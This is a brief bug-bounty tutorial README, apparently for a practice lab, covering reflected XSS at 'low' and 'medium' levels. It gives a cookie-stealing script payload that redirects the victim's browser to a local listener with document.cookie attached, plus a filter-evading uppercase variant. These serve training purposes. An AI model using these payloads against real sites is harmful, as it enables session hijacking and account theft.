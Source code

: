 # bug-bounty-tutorial
bug bounty tutorial

## 17.XSS-(Reflected)

### low
```
python3 -m http.server 1337
<script>window.location='http://127.0.0.1:1337?cookie='+document.cookie</script>
```

### medium 
```
<SCRIPT>window.location='http://127.0.0.1:1337?cookie='+document.cookie</script>
```

